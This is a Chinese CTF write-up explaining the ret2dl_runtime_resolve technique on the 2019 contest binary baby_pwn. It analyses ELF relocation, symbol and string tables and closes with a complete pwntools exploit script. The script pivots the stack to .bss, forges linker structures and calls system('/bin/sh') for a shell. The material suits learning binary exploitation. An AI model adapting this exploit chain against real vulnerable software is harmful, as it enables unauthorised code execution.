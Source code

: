 # dl_runtime_resolve实例分析
## IDA静态分析

这里用2019信安国赛的baby_pwn来做演示(就是因为这个做不出来去做了好多功课)，实例程序test在文件夹下，hack.py是实现本地攻击的脚本  

首先使用checksec查看文件保护状态，由于是partial relo所以并没机会改写动态段的字符串表地址。所以我们直接伪造所有所需要的参数结构。

ida动态段信息如下  

---

![1.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/1.png)

---  

d_tag字段值为DT_JMPREL,DT_SYMTAB,DT_STRTAB,分别保存了重定位表，字符串表，符号表

重定位表信息如下  

---

![2.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/2.png)

---

比如read函数的重定位条目r_offset字段保存read got表中的位置，r_info保存了符号表索引，低8位保存了符号绑定信息  

更据符号表索引追踪符号表信息如下  

---  

![3.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/3.png)  

---    

第一个字段是st_name表示字符串在字符串表中偏移，其他字段的值我们伪造时仿造其他常规函数即可，他们详细信息定义在elf头文件中。

字符串表如下。

---  

![4.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/4.png)  

---  

## 伪造参数  

---  

![5.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/5.png)  

---  

程序漏洞点很容易定位，就在vuln函数中有一处栈溢出，但是只有一个read函数可以调用，没有机会泄漏libc，所以就直接考虑ret2dlruntime  

```  

from pwn import *

elf = ELF('test')

strTab = 0x804827c
symTab = 0x80481dc
relTab = 0x804833c

plt0At = 0x8048380
bssAt =  0x804a040
baseAt = bssAt + 0x500  

#这些是程序中的小gadget(可利用的小片段)用来处理栈迁移
pppRet = 0x80485d9
popEbpRet = 0x80485db  
leaveRet = 0x804854a 

readPlt = elf.plt['read']
readGot = elf.got['read']

#缓冲区填充
nop = cyclic(0x28)

rop1 = nop
rop1 += cyclic(0x4)
rop1 += p32(readPlt)
#上面用来覆盖返回地址为read函数，向可控制的bss段写入rop
#pppret作为返回地址，用来处理掉三个传递给read的函数
rop1 += p32(pppRet)
rop1 += p32(0)
rop1 += p32(baseAt-4)
rop1 += p32(0x100)
rop1 += p32(popEbpRet)
#迁移栈去ret plt0 我们在baseat处填入plt0的地址用于ret返回执行动态链接器
rop1 += p32(baseAt-4)
rop1 += p32(leaveRet)

#这是传递给dl_fixup函数的重定位条目偏移，几个4字节大小是用来计算伪造的重定位条目的地址
#这些4字节用于填充一些会用到的参数
relloc_offset = baseAt + 4 + 4 + 4 + 4 + 4 - relTab

#计算符号条目地址
symAt = relTab + relloc_offset + 0x8
#结构体要在内存中对齐
align = 0x10 - ((symAt-symTab)&0xf)
#计算出实际地址
symAt = symAt + align
#计算出表项索引
r_sym = (symAt - symTab)/0x10
r_info = (r_sym << 8) + 0x7
fakeRel = p32(readGot) + p32(r_info)

strAt = symAt + 0x10
st_name = strAt - strTab

fakeSym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

argStr = '/bin/sh\0'
funcStr = 'system\0'

argAt = strAt + len(funcStr)

rop2 = p32(baseAt-4)
rop2 += p32(plt0At)
rop2 += p32(relloc_offset)
rop2 += p32(readPlt)
rop2 += p32(argAt)
rop2 += cyclic(0x4)
rop2 += fakeRel
rop2 += '\0'*align
rop2 += fakeSym
rop2 += funcStr
rop2 += argStr  

r = process('./test')
r.send(rop1)
r.send(rop2)
r.interactive()

```  







